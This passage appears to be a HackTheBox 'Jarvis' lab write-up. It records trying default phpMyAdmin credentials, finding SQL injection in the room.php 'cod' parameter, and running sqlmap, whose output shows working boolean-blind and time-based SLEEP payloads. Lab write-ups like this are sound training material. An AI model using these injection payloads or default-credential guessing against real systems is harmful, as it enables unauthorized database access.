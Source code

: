 Note that `http://supersecurehotel.htb/phpmyadmin/` is accessible. And it is phpMyadmin login page.

![[Jarvis-02.png]]

Use admin:admin admin:password and root:root failed.

##### room.php

As we go and check each page we found room.php can be vulnerable to sql injection `http://supersecurehotel.htb/room.php?cod=1`

![[Jarvis-03.png]]

![[Jarvis-04.png]]

It means that there may be a sql injection vulnerability.

I took note earlier of room.php which took an argument, cod. I can break the page by adding a ' at the end:

![[Jarvis-05.png]]

It doesn’t crash the page or return 500, but the information and picture for the room aren’t there anymore. This suggests SQL Injection.

So, to find more useful information, we try first use SQLMAP.

### Exploitation

#### Sqlmap 

##### check

```BASH
sqlmap -u http://supersecurehotel.htb/room.php?cod=1
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/Jarvis]
└─$ sqlmap -u http://supersecurehotel.htb/room.php?cod=1                      
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.7#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:28:40 /2022-11-26/

[17:28:40] [INFO] resuming back-end DBMS 'mysql' 
[17:28:40] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=h290k6btha0...5p994o2g77'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 5704=5704

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 3798 FROM (SELECT(SLEEP(5)))Vnnx)
```